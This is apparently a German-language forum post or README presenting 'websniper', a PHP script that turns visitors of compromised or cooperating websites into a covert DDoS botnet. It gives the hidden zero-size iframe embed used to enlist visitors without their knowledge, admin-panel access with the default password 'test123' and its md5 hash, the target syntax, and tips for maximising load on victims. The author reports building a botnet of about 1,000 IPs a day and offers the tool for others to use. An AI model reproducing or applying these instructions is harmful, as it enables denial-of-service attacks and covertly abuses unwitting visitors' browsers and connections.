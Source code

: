 websniper
=========
hier mal ein script fuer schwebende botnetze. aehnlich wie man es von xss shells kennt, nur halt fuer ddos.
man kann dieses script bei anderen websiten einbinden und folglich dessen besucher fuer ddos missbrauchen.
es arbeitet mit dem img onload eventhandler und dem laden einer xml datei. beides zeigt, bei dem richtigen
browser, keine ladeaktion an, wenn also ein ddos angriff gestartet wird, dann zeigt der browser des opfers
nicht an das gerade etwas laed, es laeuft also komplett im hintergrund. welche methode bei welchem browser
eingesetzt wird entscheidet natuerlich das script selbst und individuell.

getestet hab ichs mit:
internet explorer
opera
firefox
safari
rekonq
google chrome


das script hab ich speziell fuer ddos angriffe gebastelt, allerdings nutz ichs imo fuer ganz andere dinge XD
der eigentliche sinn des scripts war es heraus zu bekommen, ob man mit einem schwebenden botnet auch mit
halbwegs normalen besucherzahlen etwas anfangen kann. das ergebenis war das ich mir ein botnet mit ~1k ip's
pro tag aufgebaut hab... dazu haben schon wenige seiten (mit iframe versehen) ausgereicht. der traffic den man
bei einem ddos angriff mittels der website besucher verursachen konnte war ebenfalls vollkommen ausreichend Smile

dementsprechend pub ich das script jetzt einfach mal. vllt. brauchts ja jemand oder kann was damit anfangen...

eingefuegt wird das script mittels des getparameters "z". bsp:
Code:
```
http://website/web-sniper/web-sniper.php?z
```
code bsp:
Code:
```
<iframe src="http://website/web-sniper/web-sniper.php?z" width="0" height="0" style="opacity: 0;"></iframe>
```
in den adminpanel gelangt man wiederum ganz einfach mit dem bloßen aufruf der website, also:
Code:
```
http://website/web-sniper/web-sniper.php
```
oder auch mit dem getparam "root":
Code:
```
http://website/web-sniper/web-sniper.php?root
```
das standart passwort ist "test123". wer dieses aendern moechte kann das an folgender codezeile machen (md5):
Code:
```
$password="cc03e747a6afbbcbf8be7668acfebee5"; //standart: test123
```
moechte man ein ziel setzen dann gibt man dieses nicht direkt als normalen link sondern ohne http und mit angabe eines ports an.
also z.b. anstatt:
Code:
```
http://unnex.de/index.php?kontakt
```
setzt man:
Code:
```
unnex.de:80/index.php?kontakt
```
einen ordnerpfad muss man nicht angeben, kann man aber. manchmal kann es stark zur belastung des ziels beitragen einen link zu einer großen datei oder z.b. suchanfrage an zu geben...

neben dem input fuer die addr findet sich eine weiteres. in diesem legt man fest wieviele threads bzw. frames pro aufruf genutzt werden sollen. frame allein ist schon ein uebler angriff. jeder weitere waere vereinfacht gesagt, so als wuerde das opfer die seite nochmal und nochmal und nochmal usw... oeffnen. hier sollte man die grenzen seiner vics also schon etwas beruecksichtigen ;-)

...die reloadzeit fuer die opfer ist im standard auf 10min gesetzt.
